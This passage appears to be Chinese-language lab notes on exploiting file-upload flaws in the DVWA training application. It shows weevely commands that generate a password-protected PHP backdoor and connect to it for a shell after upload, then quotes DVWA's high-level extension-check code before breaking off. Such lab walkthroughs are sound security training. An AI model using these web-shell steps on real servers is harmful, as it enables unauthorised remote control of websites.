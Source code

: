 ![image-20201111122633886](70、文件上传漏洞/image-20201111122633886.png)

weevely generate password/tmp/1.php #生成一个名为1.php的后门，密码为password

将此后门上传到网站，用weevely连接，连接后面直接跟上设置的密码

weevely <http://192.168.179.137/doyo/1.php> password

http://192.168.83.146/dvwa/vulnerabilities/upload/#

../../hackable/uploads/weeshell.php 

http://192.168.83.146/dvwa/vulnerabilities/upload/../../hackable/uploads/weeshell.php 

`#`删掉得到地址

http://192.168.83.146/dvwa/hackable/uploads/weeshell.php

```sh
weevely http://192.168.83.146/dvwa/hackable/uploads/weeshell.php caidao
```

进入交互窗口

```sh
cd /
dir
#显示服务器内部目录
cd /var/www/dvwa/hackable/uploads
:file_rm weeshelll.php

```



## 四、文件后缀名限制

**安全级别：高**
上传一句话图片木马【文件后缀限制】

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?  这里对文件的后缀名进行了限制
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
```